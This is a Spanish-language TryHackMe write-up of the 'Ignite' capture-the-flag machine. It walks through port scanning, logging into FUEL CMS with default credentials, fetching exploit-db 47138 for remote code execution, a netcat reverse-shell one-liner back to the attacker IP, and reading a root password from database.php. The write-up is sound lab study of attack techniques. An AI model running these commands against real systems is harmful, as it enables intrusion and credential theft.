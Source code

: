 ```yaml
---
title: "Ignite - Writeup"
date: 2025-03-12
author: "Eric González"
tags:
  - TryHackMe
  - CTF
image: "https://github.com/user-attachments/assets/6fc50d8c-a641-43f2-a520-4408870d642a"

---
```


![{DC58F93F-3185-4714-8695-BD88B891E8DF}](https://github.com/user-attachments/assets/0fa46990-3c83-4472-bf45-95461e35774a)


## Introducción

**Ignite** es una máquina de nivel fácil en TryHackMe (THM) diseñada para practicar explotación del gestor de contenidos (FUEL CMS). En este writeup, analizaremos los pasos clave para comprometer la máquina, desde el reconocimiento hasta la escalación de privilegios.

## Herramientas 

* [Kali](https://www.kali.org/)
* [Nmap](https://nmap.org/)
* [dirb](https://dirb.sourceforge.net/about.html)
* [netcat](https://netcat.sourceforge.net/)

## Detalles

* Attacker IP: 10.9.2.48
* Target VM Type: TryHackMe
* Target IP: 10.10.74.195
* Target Network: TryHackMe VPN

## Enumeración

Comenzamos con un escaneo de puertos para identificar servicios en ejecución:

```bash
nmap -sS --min-rate 5000 -n -Pn 10.10.74.195
```

![{F7095E70-37E1-4E45-8520-7D815AFEEE71}](https://github.com/user-attachments/assets/cce5e0f0-2a74-4c1e-be1a-2cbdc17b7922)


```bash
nmap -sCV --min-rate 5000 -p80 -n -Pn 10.10.74.195
```

![{D4E29788-6ED1-4C2F-962D-3BA81C391089}](https://github.com/user-attachments/assets/cdfbc61b-f17b-4cb8-b6dd-ecfeb88120bc)


Vemos que hay un servicio web, le tiramos un whatweb para obtener información y vemos el título de **FUEL CMS**, vamos a ver de que se trata.

```bash
whatweb http://10.10.74.195/
```
![{912AA099-15C6-41B6-BD4B-206A6B3872ED}](https://github.com/user-attachments/assets/1661bd15-2170-4cbb-aafd-5fda784fc253)

Accedemos dentro del servicio web a ver de que se trata, y vemos que efectivamente se trata del gestor de contenidos Fuel, de version 1.4.

![{C2E78ABF-884A-495C-BF8C-616E271669C5}](https://github.com/user-attachments/assets/f806be25-84a2-4158-83d1-4476afdb5008)

Si bajamos un poco nos da información sobre el panel de administración y la contraseña por defecto.

![{9E9804CC-0EAA-452B-B7FE-919E8B39151D}](https://github.com/user-attachments/assets/036a541c-8fe5-48a4-82f5-ebdd7443960b)

Vamos a tratar de acceder.

![{84F2E50F-00E6-4F67-AACE-FB0FBC580144}](https://github.com/user-attachments/assets/5810bd3a-1c2d-45f7-afc9-554dc29c5d5e)

Vemos que estamos dentro del panel de administración... Muy sencillo no?.

![{FFB207F0-9619-4CB6-B27C-B162F87B7115}](https://github.com/user-attachments/assets/9db4ee9c-3a38-42fb-8b20-c93a3ee15b87)


## Explotación

El objetivo aquí es tener acceso por consola y escalar privilegios dentro del sevidor, así que como anteriormente vimos la versión del CMS vamos a buscar un exploit que nos pueda servir... 
Y efectivamente tenemos uno que nos puede ir bien!.

![{1CDF0191-55F7-498C-B987-AA85B15E334B}](https://github.com/user-attachments/assets/054b54cd-f414-4c6c-8327-44b13d3881ff)

Lo descargamos y modificamos la IP para apuntar al servidor, también eliminamos la linea de "proxy" ya que no será necesario.

```bash
wget https://www.exploit-db.com/raw/47138
```

![{6614E678-5BBF-4D1F-8E49-BD1F2B630CB9}](https://github.com/user-attachments/assets/8c7f31fc-0d09-4c6b-b2d0-ff40a85af682)

![{5A7BBC30-6746-4B63-BF39-56BF26895008}](https://github.com/user-attachments/assets/7ec532d1-c26c-4056-863d-518f616b1b32)


Ejecutamos el script, y a través del parámetro **cmd:** podemos ejecutar comandos y acontecer un (RCE), aunque no funciona del todo bien.

![{50447B06-53A0-4DD9-BE49-189EACDC88E2}](https://github.com/user-attachments/assets/b976c2fd-f156-4211-93fe-e4adf2f1a388)

Vamos a generar una reverse shell a la vez que nos ponemos en escucha por el puerto que queramos, en mi caso el **443**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.48 443 > /tmp/f
```

![{22137FFE-4681-4069-956B-240A3AD5F01F}](https://github.com/user-attachments/assets/c988e414-b6c7-42c1-8408-4c3d5f8ac6eb)


## Post Explotación

Una vez dentro del sistema vamos a escalar provilegios, anteriormente en la web vimos rutas que nos llamaron la atención.
Ya que nos habla de la instal·lación base de datos.

![{DDA7C2F5-46FF-4883-A5D7-95F471E7D786}](https://github.com/user-attachments/assets/895cb934-3149-4cf6-9960-b8217ecb2288)

Vamos a investigar el archivo **database.php** y que sorpresa... 
Vemos la contraseá de root expuesta.

```bash
cat fuel/application/config/database.php
```

![{4AD81C04-14FA-46A9-B0D3-FFF762AF4FE0}](https://github.com/user-attachments/assets/662805e7-8929-4543-b6b6-81d0f60223a0)

Nos convertimos en root usando la contraseña que hemos obtenido y ya podriamos leer las flags.

![{45A5B673-9702-4BBC-B17D-6F1D81DE15CF}](https://github.com/user-attachments/assets/e79a592f-1980-477c-a5ca-80596c0af11e)
